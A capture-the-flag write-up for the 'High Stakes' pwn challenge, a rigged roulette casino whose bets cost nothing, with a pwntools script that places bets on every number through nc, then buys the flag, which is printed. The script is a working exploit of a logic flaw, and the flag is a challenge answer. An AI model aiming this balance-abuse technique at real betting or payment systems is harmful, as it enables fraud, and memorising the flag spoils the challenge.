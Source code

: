 # High Stakes

### Category

Pwn

### Description

This casino is SOOOO totally rigged. 
I have lost everything .. I literally lost 300 times in a row !
This does not seem possible.
I really wanted to buy the flag from the shop, but right now I'm so broke I'm not even allowed to think about it.
Lucky as you are, you'll manage to win enough money to buy it for me, right bro ?

Format : **Hero{flag}**  
Author : **iHuggsy**

### Write up

We see that a flag costs 3600$. We have 100$ to begin with.

If we bet normally, we lose. The casino seems rigged.

After a bit of poking around, we see that there's a logic vulnerability : the program doesn't take any money for placing a bet.

We can then bet 100$ on all of the numbers, and we'll win for sure.

We just have to buy the flag from the shop afterwards.

```py
from pwn import *
import time

def microsleep():
    pass

p = process(['nc', '161.97.134.238', '7000'])
time.sleep(5)
print(p.clean())

for i in range(37):
    p.sendline('1')
    microsleep()
    print(p.clean())
    p.sendline(str(i))
    microsleep()
    print(p.clean())
    p.sendline('100')
    microsleep()
    print(p.clean())

p.sendline('3')
print(p.clean())
microsleep()
p.sendline('4')
print(p.clean())
microsleep()
p.sendline('5')
print(p.clean())
microsleep()
p.sendline('3')
print(p.clean())
```

Surely enough, we receive 
>>> b"\n Welcome to the shop ! What do you want to buy ?\n1 : Lucky charm (100$)\n >>> Could it unrig the game ? I doubt it.\n2 : Alcohol (3$)\n >>> Will it do something ? (spoiler : nope)\n3 : The FLAG ! (3600$)\n >>> That's what you want, right ? ;)\n>>> "
b'There is your flag king ! Hero{g4MBl1nG_f0R_dA_fL4G}\n\n1 : Place a bet\n2 : See your current balance\n3 : See your current bets\n4 : Run the roulette BOOSTED x72 ! (totally not rigged btw)\n5 : Shop\n6 : Top-up your account\n7 : Exit\n>>> '

### Flag

Hero{g4MBl1nG_f0R_dA_fL4G}
